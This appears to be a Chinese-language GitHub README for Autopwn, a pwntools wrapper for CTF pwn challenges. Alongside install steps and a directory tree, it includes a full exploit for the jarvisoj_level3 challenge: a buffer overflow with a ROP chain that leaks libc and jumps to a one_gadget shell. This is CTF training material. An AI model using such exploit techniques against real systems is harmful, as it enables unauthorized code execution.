 # Autopwn

## 简介

Autopwn项目，致力于提供如下特性：

- 简化exp
- 对pwntools常用功能的更好的包装

目前已经实现的功能：
- 对自定义函数的包装（不完善）
- 使用命令行参数启动脚本，从而实现不同的功能（local run，local debug，remote run）
- 允许用户自定义debug时的gdb脚本，添加了对PIE程序仅使用偏移下断点的支持
- 允许用户自行提供函数封装，并将其添加为tubes的方法，已内置数个别名
- 允许用户更改elf文件的库查找路径与解释器路径（使用patchelf实现）
- 允许用户为当前的elf生成一个可修改的lief Binary对象
- 添加Ubuntu常用库的数据库（ld，libc，libdl）

## 效果图

- 自动生成配置文件
![](https://github.com/CTSinon/Autopwn/blob/master/example/autoconf.gif)

- 搭配emacs的YASnippet插件一键生成exp框架
![](https://github.com/CTSinon/Autopwn/blob/master/example/genexp.gif)

- 一键patchelf
![](https://github.com/CTSinon/Autopwn/blob/master/example/autopatch.gif)

- 自带常用tube方法别名（如rl，sl，ru），一键运行（废话
![](https://github.com/CTSinon/Autopwn/blob/master/example/run.gif)

- 无视PIE，自定义断点，一键调试
![](https://github.com/CTSinon/Autopwn/blob/master/example/breakpoint.gif)

- 一键远程连接
![](https://github.com/CTSinon/Autopwn/blob/master/example/remote.gif)

## 安装

### 依赖
- python 2.7 (environment)
- pwntools (module)
- pandas (module)
- lief (module)
- patchelf (application)

### 安装方法

1. `git clone https://github.com/CTSinon/Autopwn.git`
   
2. 将这一行添加到.bashrc中：
`alias gen='python path/to/gen.py`

3. 将autopwn文件夹添加到python的path中

4. 将LIBC文件夹中的ubuntu库放到你喜欢的位置

5. enjoy it!

## 其他

### 栗子🌰

题目链接：https://buuoj.cn/challenges#jarvisoj_level3

```python
from pwn import *
from autopwn.core import pwn
from sys import argv

def leak(self, a):
    pass


# 该函数将会被动态添加到内置的一个类中
# 你可以自由的使用类属性（如当前elf对象）
# 代价仅仅是在参数中添加一个self
def exp(self, a):
    read_got = self.elf.got['read']
    # 这里elf对象是类属性
    write_got = self.elf.got['write']
    write_plt = self.elf.plt['write']
    read_plt = self.elf.plt['read']
    esp_c = 0x080482ee
    read_offset = self.lib[0].symbols['read']
    # lib同样是类属性，是一个存放下面指定的lib对应的elf对象的数组
    one_offset = 0x3a80c

    a.rl()
    # 这是recvline的别名，你可以在less_tube.py中定义你自己的别名
    payload = 'a' * 0x88
    payload += 'a' * 4
    payload += p32(write_plt) + p32(esp_c)
    payload += p32(1) + p32(read_got) + p32(4)
    payload += p32(read_plt) + p32(write_plt)
    payload += p32(0) + p32(write_got) + p32(4)

    a.sl(payload)

    read_addr = unpack(a.recvn(4), 'all')
    a.lg("Got read addr: ", read_addr)
    one_addr = read_addr + one_offset - read_offset

    a.send(p32(one_addr))
    
# 该函数用于getshell之后获取flag
# 一般的题目这样就好
def get_flag(self, a):
    a.interactive()
    return

pwn.ctf(argv, exp, get_flag,
        bp=0x080484a6,
        # 指定断点，开启PIE时使用偏移就好
        inter='../libc6-i386_2.23-0ubuntu10_amd64/ld-2.23.so',
        # 如果你要patch libc的话，一定要指定相应的ld
        needed=['../libc6-i386_2.23-0ubuntu10_amd64/libc-2.23.so'])
        # needed是一个数组，你可以使用它来替换dynamic段中所用needed项（包括大部分动态链接库）
```

### 目录结构

```
.
├── \
├── autopwn
│   ├── awd                       # awd框架，未实现
│   │   ├── attacker.py           # =-=
│   │   ├── attack.py             # =-=
│   │   ├── get_ip.py             # 获取目标列表
│   │   └── __init__.py
│   ├── core
│   │   ├── classes.py            # 存放核心类
│   │   ├── __init__.py
│   │   └── pwn.py                # 主文件
│   ├── ctf
│   │   ├── attack.py             # 主文件
│   │   ├── __init__.py
│   │   ├── less_tube.py          # 为tube类添加更多特性
│   │   └── stack.py              # 栈布局可视化（已废弃）
│   └── __init__.py
├── autopwn.conf                  # 配置文件模版
├── gen.py                        # 生成配置文件
├── README.md
└── test
    ├── flag
    └── payload.py
```

### 碎碎念
- 感谢cnitlrt师傅的支持
- 作者没有专业研究过python这门语言，所以脚本写得一眼难尽。设计模式之类的更是没怎么研究过。希望各路大神能提出更好的建议，添加更方便的功能，大家一起进步呀 (๑•̀ㅂ•́)و✧ 
